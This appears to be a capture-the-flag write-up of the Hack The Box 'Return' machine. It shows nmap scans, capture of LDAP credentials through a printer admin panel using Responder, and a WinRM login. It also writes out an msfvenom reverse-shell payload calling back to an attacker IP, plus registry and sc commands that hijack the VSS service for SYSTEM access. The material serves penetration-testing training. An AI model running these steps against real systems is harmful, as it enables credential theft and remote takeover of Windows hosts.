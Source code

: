First enumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Wed Jan 31 08:59:10 2024 as: nmap -p- --min-rate 1000 -oN fulltcp.nmap -v -Pn 10.129.95.241
Nmap scan report for 10.129.95.241
Host is up (0.14s latency).
Not shown: 65506 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
53/tcp    open     domain
80/tcp    open     http
88/tcp    open     kerberos-sec
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
389/tcp   open     ldap
445/tcp   open     microsoft-ds
464/tcp   open     kpasswd5
593/tcp   open     http-rpc-epmap
636/tcp   open     ldapssl
3268/tcp  open     globalcatLDAP
3269/tcp  open     globalcatLDAPssl
3949/tcp  filtered drip
5985/tcp  open     wsman
9389/tcp  open     adws
47001/tcp open     winrm
49664/tcp open     unknown
49665/tcp open     unknown
49666/tcp open     unknown
49667/tcp open     unknown
49671/tcp open     unknown
49676/tcp open     unknown
49677/tcp open     unknown
49678/tcp open     unknown
49681/tcp open     unknown
49738/tcp open     unknown
61168/tcp filtered unknown

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Jan 31 09:00:30 2024 -- 1 IP address (1 host up) scanned in 80.32 seconds
```
first run nmap full port scan to know what ports are open, then  let's run default nmap scripts scan. 

```shell
# Nmap 7.94SVN scan initiated Wed Jan 31 09:09:30 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 53,80,88,135,139,389,445,593,636,3268,3269,3949,5985,9389,47001 -Pn 10.129.95.241
Nmap scan report for 10.129.95.241
Host is up (0.17s latency).

PORT      STATE  SERVICE       VERSION
53/tcp    open   domain        Simple DNS Plus
80/tcp    open   http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-31 08:31:15Z)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
3949/tcp  closed drip
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open   mc-nmf        .NET Message Framing
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-01-31T08:31:25
|_  start_date: N/A
|_clock-skew: 21m36s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 31 09:10:03 2024 -- 1 IP address (1 host up) scanned in 33.25 seconds
```
now we know what services aare running on those ports. 

## Enumerating port 80 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/de2800c5-fe2d-46a5-847d-7f25e32e1587)

checking the IP addr on a browser, we get a printer admin page. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0fd2c226-23c1-405a-b500-69ff7aa61f0c)

navigating to the settings page, we got to see some ldap info. let's try fire responder and replace the domain name with our tun0 IP addr. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1a279d88-8e9b-4a38-a70d-694e6e4e4716)

get tun0 ip 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ab0e7e56-0625-4353-9fda-1754d88f150f)

fire responder 

```shell
sudo responder -I tun0
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/887088a2-3feb-4365-87e5-4d85f86d6e91)

replace the domain name with the tun0 IP addr and click update

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/133c2b3f-85a8-49f4-ae5f-4b4990709b45)

boom we got the clear text password

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f5f59216-6971-4442-a23b-2ad495e27116)

using netexec to check what service we have access to, we can see we can login to winrm.

## Initial Foothold (Winrm)

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/711d9207-ed4f-42be-ba63-49b3654e560b)

we login winrm using the creds


## Privilege Escalation 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/fbe94d1e-b9b6-4ed3-aedd-4a7d50b74167)

running winpeas.exe, we can see we can modify some service registery 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/04c2a2aa-b190-496e-8d9d-75c6ab97b779)

running sc qc to query info about the `Vss` service, we can see it is run by localsystem, let's try to abuse ![Abuse](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions)

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Return]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.34 LPORT=443 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```
first generate an msfvenom reverse shell payload. and send to the target.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d9d38dae-0a68-4cbd-8f93-ae20d835b33c)

```
reg add HKLM\system\currentcontrolset\services\VSS /v ImagePath /t REG_EXPAND_SZ /d C:\Users\svc-printer\Documents\reverse.exe /f
sc start vss
```

use the abuse function and restart the service, boom we got shell as NT Authority 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c92f7c27-77cf-4ce9-9956-091f06025cf1)

And we are through... easy huh 😉
